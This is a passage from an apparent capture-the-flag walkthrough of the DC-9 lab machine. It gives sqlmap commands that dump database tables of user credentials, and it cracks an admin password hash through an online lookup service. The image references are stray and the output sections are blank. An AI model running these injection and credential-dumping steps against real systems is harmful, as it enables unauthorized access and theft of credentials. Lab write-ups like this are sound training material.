




3.2 Sqlmap injection
a) List databases.
$sqlmap
-r dc9-request.txt --dbms=mysql --dbs
Output:

b) “Users” table.
$sqlmap
-r dc9-request.txt --dbms=mysql -D users -T UserDetails --dump
Output:

c) Save in a file “users.txt” the usernames column and in “pass.txt” the password column.
d) “staff” table.
$sqlmap
-r dc9-request.txt --dbms=mysql -D Staff -T Users --dump
Output:

e) Crach “admin” hash.
Hash: “856f5de590ef37314e7c3bdf6f8a66dc"
Go to
https://hashes.com/en/decrypt/hash
and introduce your hash.
Output:

Password: “transorbital1”
Index